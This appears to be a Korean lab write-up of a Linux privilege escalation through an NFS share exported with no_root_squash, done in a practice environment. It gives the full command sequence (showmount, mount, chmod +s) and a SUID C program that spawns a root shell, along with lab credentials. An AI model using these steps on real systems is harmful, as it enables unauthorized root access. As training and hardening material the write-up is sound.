






# Linux Privilege Escalation: NFS
> NFS(Network File System)의 설정 오류를 이용해 SUID 바이너리를 업로드하고 루트 쉘을 획득한 과정을 상세히 정리하였습니다.

---

## 1. 실습 개요
- **타겟 머신 IP**: 10.10.112.198
- **공격 머신**: Kali Linux
- **사용 계정**: `karen:Password1`
- **권한 상승 방법**: 잘못 설정된 NFS 공유 디렉토리 내에 SUID 바이너리를 업로드하여 루트 권한 획득
- **실습 일자**: 2025-04-20

---

## 2. 실습 과정

### 2.1 SSH 접속 및 환경 분석
```bash
ssh karen@10.10.112.198
```
- 타겟 머신에 `karen` 계정으로 SSH 접속하였다.



- `/etc/exports` 파일을 열어보니 NFS로 공유된 디렉토리(`/home/backup`, `/tmp`, `/home/ubuntu/sharedfolder`)가 `no_root_squash` 옵션과 함께 외부에 전체 공개되어 있는 것을 확인하였다.


---

### 2.2 NFS 공유 디렉토리 식별

- Kali 머신에서 `showmount -e 10.10.112.198` 명령어로 NFS 공유 목록을 조회하였다.

```bash
showmount -e 10.10.112.198
```
- `/home/ubuntu/sharedfolder`가 공유되고 있음을 확인하였다.



---

### 2.3 공유 디렉토리 마운트

- 공격 머신(Kali)에서 공유 디렉토리를 마운트할 임시 디렉토리를 생성하고, NFS로 공유된 디렉토리를 마운트하였다.

```bash
mkdir /tmp/attackmount
mount -o rw 10.10.112.198:/home/ubuntu/sharedfolder /tmp/attackmount
```
- `mount | grep attackmount` 명령어로 마운트가 정상적으로 이루어졌는지 확인하였다.



---

### 2.4 루트 쉘 SUID C 파일 작성 및 컴파일
- `/tmp/attackmount` 디렉토리에 루트 쉘을 획득할 수 있는 C 코드를 작성하였다.
```c
int main() {
  setuid(0);
  setgid(0);
  system("/bin/bash");
  return 0;
}
```




- 해당 코드를 `file.c`로 저장한 뒤, 정적 컴파일 및 SUID 권한 설정을 하였다.
```bash
gcc file.c -o file -static
chmod +s file
```



---

### 2.5 타겟 머신에서 SUID 실행 및 루트 쉘, 플래그 획득
- 타겟 머신의 `/home/ubuntu/sharedfolder` 디렉토리로 이동하여 `file` 바이너리를 실행하였다.

```bash
cd /home/ubuntu/sharedfolder
./file
```

- 이 바이너리는 공격자가 공유 디렉토리를 통해 업로드한 것이며, `setuid(0)`을 통해 루트 권한을 획득할 수 있었다.

- 루트 쉘이 정상적으로 획득되었음을 확인하고, 시스템을 탐색하여 플래그 파일을 찾아 읽어냈다.

```bash
find / -name flag7.txt
cat /home/matt/flag7.txt
```



---

## 느낀 점

이번 실습을 통해, **단순한 파일 공유 설정 오류 하나가 전체 시스템 권한 상승으로 이어질 수 있음을 명확히 체감**하였다. 특히 `no_root_squash` 설정은 공격자가 root 권한을 에뮬레이션할 수 있게 해주며, 실질적으로 시스템을 장악할 수 있는 강력한 백도어 경로가 된다.

